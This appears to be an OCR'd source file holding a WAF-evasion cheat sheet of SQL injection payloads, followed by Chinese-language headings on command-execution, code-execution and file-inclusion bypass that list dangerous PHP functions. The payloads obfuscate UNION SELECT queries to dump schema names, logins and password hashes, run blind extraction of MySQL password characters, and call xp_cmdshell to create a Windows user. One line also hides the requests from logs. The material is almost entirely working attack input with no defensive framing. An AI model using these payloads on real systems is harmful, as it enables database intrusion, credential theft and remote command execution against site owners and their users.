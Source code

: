 	/*!UnIOn*//*!SeLect*/+1,2,3—
	un/**/ion+sel/**/ect+1,2,3—
	/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
	ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+FROM+information_schema.columns+WH
	ERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),9,10,11,12,13,14,15,16,17,
	18,19,20,21,22,23,24,25,26,27,28,29,30--
	?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
	index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
	?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
	?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
	id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/
	id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES--
	id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WH
	ERE+TABLE_NAME=0x41646d696e--
	SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
	SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way
	select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
	select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
	select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
	select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
	select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
	/?id=1+union+(select'1',concat(login,hash)from+users)
	/?id=(1)union(((((((select(1),hex(hash)from(users))))))))
	?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ net user lucifer UrWaFisShiT /*&id=1*/ --
	id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
	id=10 and 1=0/(select top 1 table_name from information_schema.tables)
	id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
	id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用sp_password隐藏log中的请求

#命令执行绕过技术
system()、exec()、shell_exec()、passthru()、 escapeshellcmd()、pcntl_exec()

#代码执行绕过技术
eval()、assert()、``、 

#文件上传绕过技术


#文件包含绕过技术
include()、include_once()、 require()、require_once()

#文件下载绕过技术


#php函数漏洞bypass
http://blog.csdn.net/qq_35078631/article/details/75200157

1. 弱类型比较
